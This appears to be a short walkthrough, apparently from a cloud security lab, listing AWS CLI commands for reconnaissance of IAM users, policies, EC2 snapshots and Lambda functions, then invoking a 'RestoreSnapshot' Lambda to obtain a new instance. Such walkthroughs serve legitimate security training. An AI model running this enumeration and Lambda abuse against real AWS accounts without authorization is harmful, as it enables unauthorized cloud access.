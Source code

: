 
Reconnaissance:
```
# List IAM users
aws iam list-users

# List policies attached to the "ls-user"
aws iam list-attached-user-policies --user-name ls-user

# List available EC2 snapshots
aws ec2 describe-snapshots

# List available Lambda functions
aws lambda list-functions
```

Identify Lambda Function Permissions:
```
# Get the policy document for the Lambda invoke policy
aws iam get-policy-version --policy-arn <lambda_invoke_policy_arn> --version-id <version>
```

Invoke the Lambda Function:
```
# Invoke the Lambda function and save the output to a file
aws lambda invoke --function-name RestoreSnapshot output.txt

# View the output from the Lambda function (should contain the new instance ID)
cat output.txt
```

